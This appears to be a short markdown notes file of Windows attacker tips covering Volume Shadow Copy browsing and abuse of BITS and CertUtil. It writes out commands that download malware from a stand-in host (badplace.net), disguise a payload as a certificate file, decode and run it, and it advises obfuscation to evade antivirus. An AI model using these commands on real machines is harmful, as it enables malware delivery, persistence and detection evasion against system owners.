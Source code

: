 # Windows Handy Hints and Tips

## Volume Shadow Copy Service (VSS) ##

- This service allows you to backup whole volumes (i.e. lettered drives)
- It can be interacted with via an admin command `vssadmin`
- `vssadmin list volumes` shows you the applicable volumes
- By viewing information about a volume, you can see where it is stored (somewhere like `\\GLOBALROOT\...`)
- From there, you can start listing files stored in the shadow volume, and can view the contents of anything you find interesting

## Background Intelligent Transfer Service (BITS) ##

- Generally used for Windows updates
- But if we can co-opt it, that sounds like a great attack vector, doesn't it?
- You'd need some degree of access to the client machine to start with (or some way of spoofing it so that you appear to be the windows update server...)
- From that start point, you can run PowerShell commands to download/upload items:
  - `Start-BitsTransfer -Source hxxp://badplace.net/malware.exe -Destination C:\Users\Administrator\Run.exe`
- This has been used in attacks to allow malware to re-infect a machine after it has been removed by the blue team/anti-virus tools. It can also be used to download post-exploitation/second-stage malware.

## CertUtil ##

- Intended for downloading CA info
- Can be used for encoding/decoding Base64 data
- A usage pattern might be:
  - Encode payload with base64
  - Name the payload something unassuming, such as ComodoRootCA.p12
  - Invoke CertUtil, similarly to `certutil.exe -urlcache -split -f hxxp://badplace.net/certs/ComodoRootCA.p12 ComodoRootCA.p12`
  - Use CertUtil to decode the payload: `certutil.exe -decode ComodoRootCA.p12 payload.exe`
  - Run the payload
- Note that anti-virus tools are mostly wise to this, so you will need to obfuscate it carefully if this is the method you want to use
  - Example: my anti-virus decided that this file was infected, due to the command line examples above!